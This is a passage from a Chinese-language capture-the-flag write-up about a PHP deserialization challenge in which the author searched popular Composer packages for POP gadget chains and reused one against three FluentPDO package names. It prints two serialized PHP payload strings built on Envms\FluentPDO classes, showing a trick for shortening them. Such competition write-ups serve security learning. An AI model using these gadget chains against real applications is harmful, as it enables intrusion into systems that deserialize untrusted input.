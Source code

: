 ### 比賽情況

看到這種題目一定就會想拿 PHPGGC 直接炸下去🍤, 所以題目作者就在 -1 回合的時候就用 NPC 隊把他生的 payload 全部都用上去, 請 AxelHowe (打 pwn 的) 跟 Ching367436 幫忙試才發現的, 接著 Ching367436 看到 PHPGGC 有 [pr](https://github.com/ambionics/phpggc/pull/160), 裡面有其他原本沒有的, 發現全部都不行, 後來有隊伍拿 edu-ctf 的 chain 來打 (predis), 就待在排名上面一直拿分, 第一天那題就沒有動靜了

第二天清晨, 我在 https://packagist.org/explore/popular 逛了各種熱門的 composer 的 app. 基本上流程就是把 package 載下來, 找 php magic method, 找不到就刪掉換下一個, 發現其實 `__destruct` 還蠻稀有的, 後來翻到 https://packagist.org/explore/popular?query=FluentPDO , 然後 splitline 那邊有[現成的 chain](https://github.com/splitline/My-CTF-Challenges/tree/master/tsj-ctf/avatar) 可用, 拿來改成可以用的形狀後, 我把一個 chain 當 3 個來用, 因為 `envms/fluentpdo` `lichtner/fluentpdo` `fpdo/fluentpdo` 都是同個東西, 所以就用這個拿 3 倍的分數, 靠這個就在這題第一名待了幾個小時, 後來被抄走了 ==.

#### 各種縮短 POP Chain 的手法

第一種就是直接找其他更短的 chain, 但時間成本較高. 我在 `fluentpdo` 被搶走後採用的是: 在生 chain 的過程把所有 `private` `protected` 的部分改成 `public`, 這樣可以少一些 `\x00`  如下:

![](/ais3-eof-2024-final/poper-public.webp)

```python
# before
b'O:30:"Envms\\FluentPDO\\Queries\\Select":3:{s:9:"\x00*\x00fluent";O:21:"Envms\\FluentPDO\\Query":1:{s:32:"\x00Envms\\FluentPDO\\Query\x00structure";O:25:"Envms\\FluentPDO\\Structure":1:{s:37:"\x00Envms\\FluentPDO\\Structure\x00primaryKey";s:10:"p0pp3r_win";}}s:8:"\x00*\x00regex";O:21:"Envms\\FluentPDO\\Regex":0:{}s:13:"\x00*\x00statements";a:2:{s:8:"GROUP BY";a:1:{i:0;s:2:"a:";}s:4:"FROM";s:18:"./@ --give-me-flag";}}'
# after
b'O:30:"Envms\\FluentPDO\\Queries\\Select":3:{s:9:"\x00*\x00fluent";O:21:"Envms\\FluentPDO\\Query":1:{s:9:"structure";O:25:"Envms\\FluentPDO\\Structure":1:{s:10:"primaryKey";s:10:"p0pp3r_win";}}s:8:"\x00*\x00regex";O:21:"Envms\\FluentPDO\\Regex":0:{}s:13:"\x00*\x00statements";a:2:{s:8:"GROUP BY";a:1:{i:0;s:2:"a:";}s:4:"FROM";s:18:"./@ --give-me-flag";}}'
# after after
```
